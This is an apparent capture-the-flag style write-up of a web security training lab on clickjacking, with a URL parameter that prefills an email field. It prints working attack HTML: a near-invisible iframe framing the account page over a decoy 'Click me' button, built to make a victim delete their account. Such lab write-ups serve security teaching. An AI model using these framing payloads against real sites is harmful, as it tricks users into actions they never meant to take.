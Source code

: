 # Lab description
Basic clickjacking lab to demonstrate that clickjacking attacks bypass CSRF token protection. The difference with the base one is that the URL contains an email parameter which we need to fillup in the HTML hidden iframe with the user we want to delete.

Official lab description:
> This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.
> To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.
> You can log in to your own account using the following credentials: `wiener:peter`

# Writeup
Okay, we have to just craft a HTML response of a page that has a button that says "click" and that button has an invisible iframe on top. Let's use the example CSS given in the lab solution, as crafting this would be a lot of time and effort.
This is the example HTML:

```css
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }

  div {
    position: absolute;
    top: $top_value;
    left: $side_value;
    z-index: 1;
  }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

As we can see, the difference is that there is a parameter called `email` that needs to be filled so it gets autocompleted:
![](imgs/clickjacking_with_input_in_url-1.png)
We can see that now, with the parameter, the user just have to click. That is why we can still perform clickjacking.

Now, the attack is the same. We change the values of the HTML frames to match:
![](imgs/clickjacking_with_input_in_url-2.png)

And turn on opacity, change the button to "Click me" and send. This is the final HTML that is received by the user and performs the attack:
```css
<style>
    iframe {
        position:relative;
        width:1000;
        height: 600;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a7400660381857c83fd925c008b00ce.web-security-academy.net/my-account?email=silly@evil.me"></iframe>
```

We get our reward:
![](imgs/clickjacking_with_input_in_url-3.png)

